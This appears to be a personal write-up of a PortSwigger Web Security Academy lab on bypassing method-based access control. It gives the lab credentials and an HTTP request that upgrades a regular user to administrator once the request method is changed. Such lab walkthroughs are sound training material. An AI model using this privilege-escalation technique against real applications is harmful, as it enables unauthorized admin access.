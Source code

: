 # IDOR NOTES
## METHOD BASED ACCESS CONTROL CAN BE CIRCUMENTED
    ### recon
    - admin credentials: administrator:admin

    -my-credentials: wiener:peter

    #### behaviour when logged in as an admin
    -upgrade user
    --POST /admin-roles
    in request body: username=carlos&action=upgrade

    -downgrade the user
    --POST /admin-roles
    in request body: username=carlos&action=downgrade



    #### behaviour when logged in as a regular user
    just nothing --- just changing the email and nothing else important
    change the request to same as admin: You get unauthorized... mmh nice..

    ### solving the lab
    - as the admin you can make post requests to the server
    -as the regular user you cannot
    - change the method to GET and path as /admin-roles
    - realise the server responds with *missing parameter 'username*
    - observer the request sent by admin and craft similar one to that as shown:
        POST /admin-roles?username=wiener&action=upgrade HTTP/2
        Host: 0aa70076033dc29c803267a700750036.web-security-academy.net
        Cookie: session=Gm3NLGDGiQkGtPmy1fpZ7oRhSHWdkH1T
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate, br
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 0
        Origin: https://0aa70076033dc29c803267a700750036.web-security-academy.net
        Referer: https://0aa70076033dc29c803267a700750036.web-security-academy.net/my-account?id=admin
        Upgrade-Insecure-Requests: 1
        Sec-Fetch-Dest: document
        Sec-Fetch-Mode: navigate
        Sec-Fetch-Site: same-origin
        Sec-Fetch-User: ?1
        Priority: u=0, i
        Te: trailers

    - With this request you upgrade yourself :)
    - Navigate to UI/UX and perform admin duties :)

YOU NOTICE THE LAB CHANGED TO SOLVED......always try changing the method and observing the behaviour...
NB: ONLY LOOK FOR SOLUTION AFTER YOU HAVE TRIED YOUR BEST WITH NO LUCK FOR SOME DAYS.
HAPPY HACKING :)


